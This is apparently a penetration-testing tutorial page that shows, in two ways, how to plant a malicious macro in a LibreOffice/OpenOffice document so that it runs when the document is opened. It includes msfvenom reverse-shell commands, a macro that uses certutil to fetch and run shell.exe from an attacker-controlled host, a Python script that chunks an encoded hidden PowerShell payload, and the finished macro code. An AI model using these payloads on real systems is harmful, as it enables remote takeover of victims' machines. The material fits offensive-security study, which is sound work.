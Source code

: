 # Open Office

### 1. Way

First, you need to install libreoffice.

```
$ sudo apt install libreoffice
```

Create an odt file.

Adding macro:

Tools -> Macros -> Organize Macros -> Basic -> Select the document -> New(Macro Name module)

Then edit the macro:

Select Macro Name -> Edit

We should create a executable for shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.147 LPORT=80 -f exe -o shell.exe
```

Add these contents to macro page.

```
Sub Evil
    Shell("certutil.exe -urlcache -split -f http://192.168.49.147:8080/shell.exe C:\Windows\Temp\shell.exe && \Windows\Temp\shell.exe")
End Sub
```

Finally, we will make a creation of trigger to execute our macro.

Tools -> Customize -> Events -> Select "Open Document" -> Click: “Assign: Macro” -> Select the document's macro which name is Evil.

### 2. Way

First, you need to install libreoffice.

```
$ sudo apt install libreoffice
```

Create an odt file.

Adding macro:

Tools -> Macros -> Organize Macros -> Basic -> Select the document -> New(Macro Name module)

Then edit the macro:

Select Macro Name -> Edit

We will create an evil payload for shell.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.175 LPORT=443 -f hta-psh -o evil.hta

Inside this file, we can find the following command. 
Paste contents of it to str variable in vba.py.
"powershell.exe -nop -w hidden -e aQBmACg......"
```

VBA has a 255-character limit for literal strings, but this restriction does not apply to strings stored in variables.

**vba.py:**

```
#!/usr/bin/python

str = "cmd.exe /c powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdA..."

n=50

for i in range(0, len(str), n):
	print "Str = Str + " + '"'+ str[i:i+n] + '"'
```

Our goal is to transform this string workable, as follows. Finally, macro should be look like this.

```
Sub Evil

	Dim Str As String
	
	Str = Str + "cmd.exe /c powershell.exe -nop -w hidden -e aQBmAC"
	Str = Str + "gAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEA"
	Str = Str + "IAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALg"
	Str = Str + "BlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3"
	...
	Str = Str + "AFcAaQBuAGQAbwB3AD0AJAB0AHIAdQBlADsAJABwAD0AWwBTAH"
	Str = Str + "kAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAA"
	Str = Str + "cgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOw"
	Str = Str + "A="
	
	Shell(Str)
	
End Sub
```

Finally, we will make a creation of trigger to execute our macro.

Tools -> Customize -> Events -> Select "Open Document" -> Click: “Assign: Macro” -> Select the document's macro which name is Evil.

